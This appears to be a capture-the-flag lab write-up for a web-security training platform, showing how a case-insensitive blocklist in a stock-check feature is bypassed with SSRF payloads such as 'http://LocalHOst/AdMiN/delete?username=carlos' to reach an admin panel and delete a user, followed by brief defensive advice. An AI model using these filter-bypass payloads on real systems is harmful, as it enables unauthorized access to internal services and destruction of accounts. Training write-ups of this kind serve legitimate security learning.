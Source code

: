 
<p align="center">
  <img src="./screenshots/ssrf_logo_.png" alt="ssrf_logo"/>
</p>

---

- 🎯 **Target:** SSRF Lab - Basic SSRF against another back-end system
- 🧑‍💻 **Author:** `sonyahack1`
- 📅 **Date:** 23.04.2025
- 📊 **Difficulty:** PRACTITIONER
- 📁 **Category:** Web - SSRF (`Case-Insensitive Bypass`)

---

> The `SSRF` vulnerability is contained in the `check stock` function which fetches data from an `internal system`:

![stock_check_function](./screenshots/stock_check_function.png)

---
## 🔍 Request interception

> The first thing we do - is intercept the `check stock` function request and send it to the `repeater` of the `BurpSuite` tool:

```html 

POST /product/stock HTTP/2
Host: 0a8f00190491594a807cad2700ca00c2.web-security-academy.net
Cookie: session=0Y0d9JLcHWAp6DegCuNPjTd0jINxBfJD
Content-Length: 107
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a8f00190491594a807cad2700ca00c2.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a8f00190491594a807cad2700ca00c2.web-security-academy.net/product?productId=3
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D3%26storeId%3D1

```

> For ease of working with the request body in URL encoding, I use the `Hackvertor` extension:

```bash

stockApi=<@urlencode>http://stock.weliketoshop.net:8080/product/stock/check?productId=3&storeId=1</@urlencode>

```

> The `check stock` function makes a request to the resource `stock.weliketoshop.net:8080` using the route `/product/stock/check`, which executes the function to check the
> availability of the product (`productId`) in the selected location (`storeId`).

> The developers on the server side have implemented some protection against `SSRF attacks` which filters requests to internal system resources in the event of a request address being spoofed.

> If I try to replace the request with `http://localhost` I get the standard error:

```bash

stockApi=<@urlencode>http://localhost</@urlencode>

```

> Result:

![localhost_error](./screenshots/localhost_error.png)

> The essence of the current protection is to filter such phrases in the request as `localhost`, `admin`, etc. The only problem is that this filter does not take into account
> the case of characters, which means that I can try to `change the case` of some characters in the word `localhost` to `LocalHOst` for example and send a request to the server:

```bash

stockApi=<@urlencode>http://LocalHOst</@urlencode>

```

> Result:

![LocalHOst_answer](./screenshots/LocalHOst_answer.png)

> Filter bypass with case-shifting worked. The server returned a response with code 200 and results in the form of an HTML page. Nice.

> Next we need to get to the administrator interface which is located at the path `/admin`. To do this, by analogy, I change the case of the characters in the word `admin` to `AdMiN` and try to send a request:

```bash

stockApi=<@urlencode>http://LocalHOst/AdMiN</@urlencode>

```

> Result:

![AdMiN_answer](./screenshots/AdMiN_answer.png)

![admin_panel](./screenshots/admin_panel.png)

> The server returned a response with the code `200` again. Bypassing the server's security features by changing the case of characters in the request worked.
> I got access to the `admin panel`.

---

> To solve this lab you need to send a request to delete the user `carlos`:

```bash

stockApi=<@urlencode>http://LocalHOst/AdMiN/delete?username=carlos</@urlencode>

```

> Result:
![solved_lab](./screenshots/solved_lab.png)

> Lab complete.

---
## 🧠 Conclusion

> To protect against such SSRF attack techniques with filter bypassing you can do the following:

> `1)` Before comparing incoming requests bring the URLs to the same type - `URL normalization`.
> Example in python:

```python

urllib.parse.urlparse(user_input_url.lower())

```
> `2)` Use `DNS resolving` with IP address checking. That is, perform a recursive request by domain name and check the received IP address with `whitelist`

> `3)` Prohibit any requests to internal local system resources in principle by isolating the network.
